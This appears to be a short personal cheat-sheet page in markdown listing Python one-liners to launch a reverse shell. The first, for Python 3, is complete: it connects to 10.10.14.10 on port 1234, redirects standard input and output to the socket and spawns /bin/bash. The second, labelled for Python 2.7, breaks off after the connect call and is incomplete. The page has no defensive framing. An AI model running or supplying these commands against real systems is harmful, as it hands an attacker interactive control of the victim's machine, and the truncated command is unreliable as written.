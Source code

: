 ```yaml
---
category: Uncategorized
tags: []
---
```

### Launch reverse shell with python3
```exec python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.10",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'```

### Launch reverse shell with python 2.7

``python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234))``


